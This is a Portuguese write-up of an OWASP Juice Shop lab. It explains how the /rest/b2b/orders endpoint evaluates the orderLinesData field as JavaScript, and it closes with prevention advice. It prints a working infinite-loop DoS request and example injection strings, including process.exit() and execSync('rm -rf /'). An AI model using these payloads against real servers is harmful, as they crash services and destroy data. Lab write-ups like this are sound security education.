 # **Denial of Service (DoS)**.


## 🔥 Como funciona essa vulnerabilidade?

1. **A API tem um endpoint (`/rest/b2b/orders`) que recebe dados em JSON.**

2. Ela aceita um campo chamado `orderLinesData`, que **é avaliado como código JavaScript** no servidor.

3. Em vez de validar e tratar a entrada como simples texto ou JSON, o backend utiliza uma biblioteca (`notevil`) para **interpretar dinamicamente a string recebida como código JS**.

4. Isso permite que o atacante envie **funções, loops, chamadas a objetos globais**, etc.

---

## 🚨 Por que isso é perigoso?

* Se não houvesse proteções, seria possível executar:

  ```json
  "orderLinesData": "process.exit()"
  ```

  → Derruba o servidor.

* Ou ainda:

  ```json
  "orderLinesData": "require('fs').writeFileSync('/tmp/hack.txt','Hacked!')"
  ```

  → Escreve arquivos no servidor.

* Ou:

  ```json
  "orderLinesData": "require('child_process').execSync('rm -rf /')"
  ```

  → Executa comandos do sistema operacional.

---

## ⚡ Por que o payload causou **DoS**?

Seu payload:

```json
{
  "cid": "JS0815DE",
  "orderLines": [
    {
      "productId": 8,
      "quantity": 500,
      "customerReference": "PO0000001"
    }
  ],
 "orderLinesData": "(function(){for(;;){};})()"

}
```

codigo de ataque:
```js
"orderLinesData": "(function(){for(;;){};})()"
```



* Entra em um **loop infinito**, que faria o servidor gastar CPU indefinidamente.
* Isso **bloquearia a thread de execução** do Node.js, travando requisições de outros usuários.
* No Juice Shop, existe uma proteção no `notevil` que interrompe a execução após detectar loops infinitos.

---

## 📚 Qual vulnerabilidade OWASP é essa?

➡️ **A deserialização insegura** (OWASP Top 10 – **A08:2021 – Software and Data Integrity Failures**)
➡️ Também se relaciona com **Insecure Deserialization** e **Remote Code Execution (RCE)**.

Como você executou um código malicioso que pode causar **DoS**, é um exemplo de:

✅ **Insecure Deserialization → Remote Code Execution (RCE) → Denial of Service (DoS)**

---

## 🛡️ Como prevenir?

✅ **Nunca interpretar dados do usuário como código** (`eval`, `Function`, `notevil`, etc.)
✅ **Usar tipagem forte e validação de entrada**
✅ **Desabilitar execução de código arbitrário em bibliotecas**
✅ **Implementar timeouts e sandboxing rigoroso**

---
